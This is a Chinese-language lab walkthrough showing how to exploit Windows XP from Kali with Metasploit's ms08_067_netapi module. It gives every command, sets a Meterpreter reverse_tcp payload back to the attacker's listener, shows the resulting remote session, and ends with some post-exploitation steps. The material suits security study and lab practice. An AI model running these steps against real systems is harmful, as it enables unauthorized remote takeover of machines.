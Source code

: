 ## Kali 攻擊 Xp

首先要導入攻擊資料庫

開啟攻擊介面面板

<use windows/smb/ms08_067_netapi> 使用的漏洞

開始檢查設定


           Name     Current Setting  Required  Description
           ----     ---------------  --------  -----------
           RHOSTS                    yes       The target address range or CIDR identifier
           RPORT    445              yes       The SMB service port (TCP)
           SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

<set RHOSTS 10.0.2.5> 設定要攻擊的ip

<check> 確認檢查是否有導入成功

<set payload windows/meterpreter/reverse_tcp>

<show options> 重新再次檢查
  
               Module options (exploit/windows/smb/ms08_067_netapi):

                 Name     Current Setting  Required  Description
                 ----     ---------------  --------  -----------
                 RHOSTS   10.0.2.5         yes       The target address range or CIDR identifier
                 RPORT    445              yes       The SMB service port (TCP)
                 SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


              Payload options (windows/meterpreter/reverse_tcp):

                 Name      Current Setting  Required  Description
                 ----      ---------------  --------  -----------
                 EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
                 LHOST                      yes       The listen address (an interface may be specified)
                 LPORT     4444             yes       The listen port



              Exploit target:

                 Id  Name
                 --  ----
                 0   Automatic Targeting

<set LHOST attact ip> 設定攻擊者ip
  
<exploit> 啟動攻擊


                [*] Started reverse TCP handler on 10.0.2.4:4444 
                [*] 10.0.2.5:445 - Automatically detecting the target...
                [*] 10.0.2.5:445 - Fingerprint: Windows XP - Service Pack 3 - lang:Chinese - Traditional / Taiwan
                [*] 10.0.2.5:445 - Selected Target: Windows XP SP3 Chinese - Traditional / Taiwan (NX)
                [*] 10.0.2.5:445 - Attempting to trigger the vulnerability...
                [*] Sending stage (179779 bytes) to 10.0.2.5
                [*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.5:1045) at 2020-10-19 11:01:38 -0400
                
## 此時以攻擊成功可控制XP                
                
<pwd>Linux指令檢查正在的目錄
                
                meterpreter > pwd
                C:\WINDOWS\system32
                
<cd /> 前往根目錄

<mkdir 檔名>創建資料夾

